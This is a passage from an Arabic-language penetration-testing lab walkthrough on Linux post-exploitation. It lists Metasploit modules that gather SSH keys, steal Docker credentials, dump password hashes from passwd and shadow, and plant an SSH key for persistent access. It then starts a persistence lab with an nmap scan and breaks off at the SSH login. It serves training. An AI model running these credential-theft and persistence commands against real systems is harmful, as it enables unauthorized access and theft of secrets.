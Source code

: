 طبعا هذا الموديول وظيفته يجيب لك مفاتيح ال SSH مثل /root/.ssh/authorized_keys , /root/.ssh/id_rsa , /root/.ssh/id_rsa.pub etc...  


نشوف الموديول الثاني  
```bash
use post/multi/gather/docker_creds  
set SESSION 1  
run  
```  

هذا الموديول الان يفيدنا بانه يعطينا الـ username & password تبع الـ Docker لو كان موجود  

نشوف ثالث موديول  
```bash
use post/linux/gather/hashdump  
set SESSION 1  
set VERBOSE true  
run  
```  

هذا الموديول طبعا يفيدنا بانه يجيب لنا جميع الهاشات حقت النظام مثل ملفات passwd , shadow  

نشوف الموديول الرابع  
```bash
use post/linux/manage/sshkey_persistence  
set SESSION 1  
run  
```  

طبعا هذا اللاب يسوي لنا private key للـ SSH بعد مايشيك على صلاحياته ويضيفه داخل التارقت ويعطينا اياه ونكون نقدر نتصل بالتارقت متى ماحبينا عن طريق الـ SSH باستخدام private key وهذي قد مرت علينا او قد اخذنا تكنيك مسبق وهذا احد تكنيكات الـ Persistence  

طبعا راح يستبدل لنا المفتاح الموجود داخل ملف authorized_kays  


الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الثاني الي هو  

Establishing Persistence On Linux 
----------------------------------|  

طبعا في هذا اللاب راح نشوف تكنيك Persistence On Linux  

طبعا قد سوينا قبل استغلال لرفع الصلاحيات عن طريق chkrootkit لكن هالمره الهدف انه نسوي Persistence مو انه نرفع صلاحياتنا  

طبعا بالبداية راح نفحص التارقت وطبعا بما انه ماعطانا ايبي التارقت عندنا خيارين يا نفحص كامل الشبكة او نزيد على اخر ديجت 1  

حنا راح نستخدم الطريقة الثانيه بما انه اسرع  
```bash
nmap -sV -sC 192.182.80.3  
```  

حصلنا الـ SSH مفتوح طبعا راح نسجل دخول هو معطينا اليوزر والباسورد في اللاب  
